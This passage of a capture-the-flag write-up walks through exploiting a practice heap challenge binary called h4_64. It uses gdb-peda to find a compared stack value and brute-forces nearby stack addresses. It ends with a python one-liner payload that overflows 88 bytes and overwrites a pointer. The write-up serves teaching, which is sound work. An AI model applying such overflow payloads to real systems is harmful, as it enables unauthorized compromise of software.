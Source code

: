 ```
   0x00000000004008f0 <+346>: mov    rax,QWORD PTR [rbp-0x20]
   0x00000000004008f4 <+350>: mov    rax,QWORD PTR [rax+0x38]
   0x00000000004008f8 <+354>: mov    eax,DWORD PTR [rax]
=> 0x00000000004008fa <+356>: cmp    eax,DWORD PTR [rbp-0x24]
```

So looking at this assembly, the eax register is being compared against the value at rbp-0x24. The value being moved into the eax register looks like a drereferenced pointer, so let's set a breakpoint for main+356 and see what ebp-0x1c holds.

```
db-peda$ b *main+356
Breakpoint 1 at 0x4008fa
gdb-peda$ r
Starting program: /Hackery/escape/heap_exp/h4_64/h4_64 
75395128
Where do you want to point the James Webb Space Telescope?
```

One wall of text later...

```
Breakpoint 1, 0x00000000004008fa in main ()
gdb-peda$ x/w $rbp-0x24
0x7fffffffde2c:   0x00000043
gdb-peda$ x/d $rbp-0x24
0x7fffffffde2c:   67
```

So that decimal there matches what we would expect, so it probably is the value were looking for. It is stored at the address 0x7fffffffde2c in gdb. However since stack addresses change, when we run it outside of gdb we will have a different address however it will be close to it. Let's try pushing addresses close to 0x7fffffffde2c to vega->ion and see if we find the right address.

```
Addresses I tried:
0x7fffffffde2c
0x7fffffffde3c
0x7fffffffde4c
0x7fffffffde5c
0x7fffffffde6c
```

Then I found the correct address, 0x7fffffffde6c. So the final alternative exploit looks like this (the zeroes are needed to fill up space to allow for proper formatting).

```
guyinatuxedo@tux:/Hackery/escape/heap_exp/h4_64$ python -c 'print "0"*88 + "\x6c\xde\xff\xff\xff\x7f\x00\x00"' | ./h4_64 
Where do you want to point the James Webb Space Telescope?
Wow while managine to not do your research, you discovered life on another planet. I am genuinely surprised. Level Cleared!
```

Just like that we pwned the binary again. 
